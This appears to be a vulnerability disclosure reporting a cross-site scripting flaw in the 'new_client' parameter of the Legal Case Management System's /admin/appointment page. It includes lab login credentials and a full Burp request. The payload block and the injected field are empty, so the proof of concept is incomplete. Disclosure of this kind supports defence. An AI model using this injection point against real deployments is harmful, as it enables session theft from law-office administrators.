

## Legal Case Management System

## XSS on `/admin/appointment`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/appointment
```

The parameter `new_client` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/appointment HTTP/1.1
Host: 192.168.150.131
Content-Length: 950
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOBEvcQAe5gK27oBc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/appointment/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6ImpPZmJvMjRjS2NiXC83c1pxRWlNXC9JQT09IiwidmFsdWUiOiJuK2hpWlwvWTFjb1NGZ2R4SDExUDZKb3VRSTdHZUVBNjhZS05TZkpcL0Y0dldGc3F3ZnpqQXBtN0M3aExGM0JObjMiLCJtYWMiOiJjNDA2M2I4MGI5N2Q3ODMwMWFjYWRiNmE1M2U4ZTdlNjJkNjhiOTY2MzQ0MGQ2Mjk5ZTVhOGQ5YTA4OGYzODg5In0%3D; test_session=eyJpdiI6IkJ3dXJndU9PTG13eHd1cktXY200bVE9PSIsInZhbHVlIjoibnB3SUhcL2dTTThLeFBhQmMzdzlHTlpGQW81QkRUS1BzSERBZVwvS1I5NkFpRTJLZEdOek5mS3BUMFp0OWZKZ25nIiwibWFjIjoiNTA4YWQ0NDEwZjAyY2YzMTAzYmU1OTY4ZGMzYTRlM2M3ZTBjMTljNjQyNDczODQ5YjNhYzM3ZTYxMGZiMWQ0ZiJ9
Connection: close

------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="_token"

dIDWseikEM1UlakNR9wrVpwU77vwjBNR1ktwDT1O
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="type"

new
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="exists_client"


------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="new_client"


------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="mobile"

1231456789
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="date"

08-05-2024
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="time"

10:17 PM
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="note"

1
------WebKitFormBoundaryOBEvcQAe5gK27oBc--

```

### Screenshot


